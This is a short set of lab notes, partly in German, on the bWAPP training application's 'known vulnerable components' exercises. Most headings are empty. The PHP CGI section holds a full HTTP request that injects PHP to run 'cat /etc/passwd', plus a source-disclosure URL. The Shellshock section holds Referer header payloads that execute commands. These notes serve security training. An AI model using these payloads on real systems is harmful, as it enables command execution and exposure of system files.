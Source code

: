 ### // A9 - Using Known Vulnerable Components //
---
##### Buffer Overflow (Local)
---
##### Buffer Overflow (Remote)
---
##### Drupal SQL Injection (Drupageddon)
---
##### Heartbleed Vulnerability
---
##### PHP CGI Remote Code Execution
~~~
POST /bWAPP/admin/phpinfo.php?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 70
Cookie: security_level=2; PHPSESSID=e27e4148fbb0b82028e1cd6e159f4e7a
Connection: close

<?php $r; exec('cat /etc/passwd', $r); echo implode($r, "\n"); die; ?>
~~~
Hiermit kann der Inhalt ausgegeben werden:
~~~
http://localhost:8083/bWAPP/admin/phpinfo.php?-s
~~~

---
##### Shellshock Vulnerability (CGI)
Folgende Anfragen sollten modifiziert werden:
~~~
/bWAPP/cgi-bin/shellshock.sh
~~~

~~~
Referer: () { nothing;}; /bin/touch /tmp/malicious
~~~

~~~
Referer: () { nothing;}; /bin/touch /etc/passwd
~~~


---
##### SQLiteManager Local File Inclusion
---
##### SQLiteManager PHP Code Injection
---
##### SQLiteManager XSS
